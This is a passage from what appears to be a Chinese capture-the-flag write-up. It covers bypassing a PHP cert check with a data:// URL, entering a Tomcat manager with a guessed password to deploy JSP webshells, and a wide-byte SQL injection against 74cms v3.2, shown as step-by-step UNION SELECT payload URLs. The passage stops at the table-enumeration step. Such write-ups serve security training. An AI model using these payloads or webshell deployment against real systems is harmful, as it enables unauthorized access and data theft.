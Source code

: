   简单看了一下逻辑：从浏览器中获取`login`的值,
  如果`login`的值与`file_get_contents($cert)`相同则打印flag。
  `login`的值我们当然可以在浏览器中填写，
  但是`$cert`的值我们不知道(或者没有)。
  由于题目给的提示是PHP伪协议,因此想到的是利用伪协议传递`$cert`变量字符
  所以构造了一下，拿到key过关。

  `http://ip/?login=aaa&cert=data:text/plain,aaa`

## 0x02应用安全

1. Tomcat默认后台

  打开页面出现了Tomcat默认页面，选择Manage App登陆。
  要求输出账号密码，默认账号是admin,密码为空，进不去。
  又随手试了几个，123456成功进入后台。

  在网上下载了几个jsp大马，deploy后进入，最后在root文件夹下面找到thekey文件。

2. SQLinjection and Getshell

  题目给的是骑士CMSv3.2版本，题目给了提示是SQLinjection，上网找了资料。
  发现是个宽字符注入，注入点在
  `http://ip/plus/ajax_officebuilding.php?act=alphabet&x=1`

  2.1. 确定注入点

  `http://ip/plus/ajax_officebuilding.php?act=alphabet&x=1%df%27`

    返回错误:

    `Error：Query error:select * from qs_category where c_alias='QS_officebuilding' AND c_index='運\\''`

  2.2. 确定字段数量

    `http://ip/plus/ajax_officebuilding.php?act=alphabet&x=%df%27%20order%20by%209%23`

    `http://ip/plus/ajax_officebuilding.php?act=alphabet&x=%df%27%20order%20by%2010%23`

    `order by 10`的时候出现错误，确定字段数量为9。

  2.3. 确定显示位

    构造`http://ip/plus/ajax_officebuilding.php?act=alphabet&x=1%df%27%20Union%20select%201,2,3,4,5,6,7,8,9%20%23`

    显示:

    `48`

    因此确定两个显示位。

  2.4. 确定数据库及用户
  构造`http://ip/plus/ajax_officebuilding.php?act=alphabet&x=1%df%27%20Union%20
select%201,2,3,database(),5,6,7,user(),9%20%23`

  确定用户`74cms`、数据库`74cms@localhost`

  2.5. 查看表

  `http://ip/plus/ajax_officebuilding.php?act=alphabet&x=1%df%27%20Union%20
select%201,2,3,
concat(table_name),5,6,7,null,9%20FROM information_schema.tables
%23`
